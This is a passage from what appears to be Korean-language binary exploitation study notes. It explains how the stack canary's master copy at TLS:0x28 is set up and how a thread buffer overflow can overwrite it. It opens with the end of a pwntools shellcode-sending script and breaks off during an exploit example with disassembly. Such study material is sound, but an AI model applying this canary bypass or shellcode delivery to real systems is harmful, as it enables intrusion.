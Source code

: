   ```
  # data += shellcraft.exit(0)

  # print(data)

  data = asm(data)

  # print(data)

  p.sendlineafter(b"shellcode:", data)

  p.interactive()
  ```

### Master Canary
- 앞서 SSP(Stack Smash Protector) 의 한 종류로 [stack canary](./#stack-canary)를 배웠고, canary는 [TLS](../../linux/thread/#tls--tsd)(Thread Local Storage) 의 데이터를 사용하여 만들어진다.
- `TLS` 영역은 `text`, `bss` 영역과 달리 로더에서 생성하는 영역이다. 
- 로더에서 `TLS` 영역을 생성은 `init_tls` -> `dl_allocate_tls_storage` 함수에 의해 할당되고, `arch_prctl` 시스템 콜에서 `ARCH_SET_FS` 명령을 호출하여 `FS segment register` 가 `TLS` 영역을 가리키도록 초기화 한다. 
  - [segment register](../../assembly/assembly_basic/#세그먼트-레지스터)
- 한 프로그램의 모든 `Stack Canary` 는 `FS segment register` 의 0x28 번지에 위치하는 값을 사용하는데, FS segment는 TLS 로 초기화 되므로, FS:0x28 의 값은 TLS:0x28 의 값이다. 
  - gdb 에서 `$fs_base` 값은 `FS segment register` 를 의미한다. `p/x $fs_base` 명령으로 `FS segment register` 의 값을 확인 할 수 있다.
- 때문에 "TLS 주소에 0x28 바이트 만큼 떨어진 주소에 위치한 값"(TLS:0x28) 을 `Master Canary` 라 부른다.
- canary 는 시스템의 pointer 크기와 같은 크기를 가지며, 첫 byte는 NULL 이다. 
  - `_dl_setup_stack_chk_guard` 함수에서 endian 에 따라 첫 byte를 NULL 로 설정한다. 
  - `THREAD_SET_STACK_GUARD` 매크로에서 TLS + 0x28 위치에 canary 값을 삽입한다.
  
- main thread 외 별도로 생성한 thread 에서 선언한 변수는 TLS 와 근접한 영역에 선언된다. 또한, 이 영역은 `FS segment register` 보다 낮은 주소에 위치하므로 master canary 의 값을 buffer overflow로 덮어 쓸 수 있다. 

#### exploit 예시
- 전제조건 : thread에 선언한 버퍼에 buffer overflow를 발생할 수 있다.
- exploit 순서
  1. 디버깅을 통해 matser canary 와 버퍼 사이의 간격을 확인한다.
     - code 상에서 buffer 가 사용되는 부분을 어셈블리어에서 확인한다. 
     ```
        // 원본 함수
        void thread_routine() {
          char buf[256];
          int size = 0;
          printf("Size: ");
          scanf("%d", &size);
          printf("Data: ");
          read_bytes(buf, size);
        }
        // disass 결과
        0x0000000000401347 <+52>:    call   0x4010f0 <printf@plt>
        0x000000000040134c <+57>:    lea    rax,[rbp-0x114]
        0x0000000000401353 <+64>:    mov    rsi,rax
        0x0000000000401356 <+67>:    lea    rdi,[rip+0xcb6]        # 0x402013
        0x000000000040135d <+74>:    mov    eax,0x0
        0x0000000000401362 <+79>:    call   0x401150 <__isoc99_scanf@plt>
        0x0000000000401367 <+84>:    lea    rdi,[rip+0xca8]        # 0x402016
        0x000000000040136e <+91>:    mov    eax,0x0
        0x0000000000401373 <+96>:    call   0x4010f0 <printf@plt>
        0x0000000000401378 <+101>:   mov    edx,DWORD PTR [rbp-0x114]
        // read_bytes 에서 사용될 첫 번째 인자 'buf' 가 rax 에 적용 될 것이며, 이는 [rbp-0x110] 값이 대응된다.
        0x000000000040137e <+107>:   lea    rax,[rbp-0x110]
        0x0000000000401385 <+114>:   mov    esi,edx
        0x0000000000401387 <+116>:   mov    rdi,rax
        0x000000000040138a <+119>:   call   0x4012be <read_bytes>
        